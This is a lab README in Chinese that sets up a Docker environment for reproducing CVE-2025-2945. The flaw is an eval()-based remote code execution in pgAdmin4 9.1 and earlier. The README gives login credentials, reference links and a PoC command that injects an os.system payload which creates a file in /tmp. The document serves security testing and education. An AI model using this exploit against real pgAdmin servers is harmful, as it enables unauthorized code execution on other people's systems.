

# pgAdmin4 <= 9.1 后台远程代码执行漏洞 (CVE-2025-2945)

pgAdmin是一个流行且功能丰富的开源PostgreSQL数据库管理和开发平台，广泛被数据库管理员和开发者用于通过Web界面管理PostgreSQL数据库。

pgAdmin4 9.2版本之前存在一个远程代码执行漏洞。该漏洞存在于两个POST接口中：`/sqleditor/query_tool/download`接口的`query_commited`参数和`/cloud/deploy`接口的`high_availability`参数被不安全地传递给Python的`eval()`函数，允许已认证的攻击者在服务器上执行任意代码。该漏洞影响pgAdmin4 9.2版本之前的所有版本。

参考链接：

- <https://nvd.nist.gov/vuln/detail/CVE-2025-2945>
- <https://github.com/advisories/GHSA-g73c-fw68-pwx3>
- <https://github.com/pgadmin-org/pgadmin4/issues/8603>
- <https://github.com/pgadmin-org/pgadmin4/commit/75be0bc22d3d8d7620711835db817bd7c021007c>

## 环境启动

执行以下命令启动pgAdmin4 9.1服务器和PostgreSQL数据库：

```
docker compose up -d
```

服务器启动后，访问<http://localhost:5050/>进入pgAdmin4登录页面。pgAdmin4的登录凭据为`vulhub@example.com:vulhub`。

利用此漏洞需要一个可访问的PostgreSQL数据库实例来初始化SQL编辑器。PostgreSQL数据库已包含在docker-compose.yml中，并已在pgAdmin4的服务器列表中预配置，凭据为`vulhub:vulhub`。

## 漏洞复现

复现此漏洞可以使用Metasploit的`exploit/multi/http/pgadmin_query_tool_authenticated`模块或独立的Python脚本<https://github.com/Cycloctane/cve-2025-2945-poc/blob/main/exp.py>。

运行exploit脚本，使用简单的文件创建载荷来验证代码执行：

```bash
./exp.py --target-url http://localhost:5050 \
    --username vulhub@example.com --password vulhub \
    --db-user vulhub --db-pass vulhub --db-name vulhub \
    --payload "__import__('os').system('touch /tmp/success')"
```

执行成功后，通过检查容器来验证文件是否被创建：

```bash
docker compose exec web ls -al /tmp/
```

你应该能在`/tmp/`目录中看到`success`文件，这证明通过易受攻击的`eval()`函数实现了任意代码执行。


